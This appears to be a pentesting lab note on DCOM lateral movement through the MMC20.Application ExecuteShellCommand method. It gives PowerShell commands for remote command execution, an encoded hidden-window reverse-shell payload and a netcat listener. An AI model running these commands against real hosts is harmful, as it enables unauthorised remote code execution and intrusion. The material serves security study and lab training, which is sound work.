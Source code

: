 # DCOM

The MMC Application Class allows the creation of [_Application Objects_](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/application-object?redirectedfrom=MSDN), which expose the _ExecuteShellCommand_ method under the _Document.ActiveView_ property. This method allows the execution of any shell command if the authenticated user is authorised, which is the default for local administrators.

From an elevated powershell window, Remotely Instantiating the MMC Application object:

{% code overflow="wrap" %}
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```
{% endcode %}

* GetTypeFromProgID("MMC20.Application.1","192.168.50.73")): target IP of FILES04

Executing a command on the remote DCOM object:

{% code overflow="wrap" %}
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```
{% endcode %}

* [**ExecuteShellCommand**](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand) method accepts four parameters: **Command**, **Directory**, **Parameters**, and **WindowState**
* spawn an instance of the calculator app

Add a base64 encoded reverse shell as a DCOM payload:

{% code overflow="wrap" %}
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
{% endcode %}

```sh
nc -lvnp 4444
```







